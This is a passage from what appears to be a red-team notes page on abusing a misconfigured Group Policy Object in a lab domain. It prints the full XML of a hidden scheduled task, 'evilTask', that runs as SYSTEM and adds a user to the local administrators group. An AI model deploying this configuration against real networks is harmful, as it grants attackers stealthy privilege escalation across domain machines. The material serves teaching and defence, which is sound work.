 ![](../../.gitbook/assets/a21.png)

#### Under the hood <a href="#under-the-hood" id="under-the-hood"></a>

If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:

![](../../.gitbook/assets/a22.png)

Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
```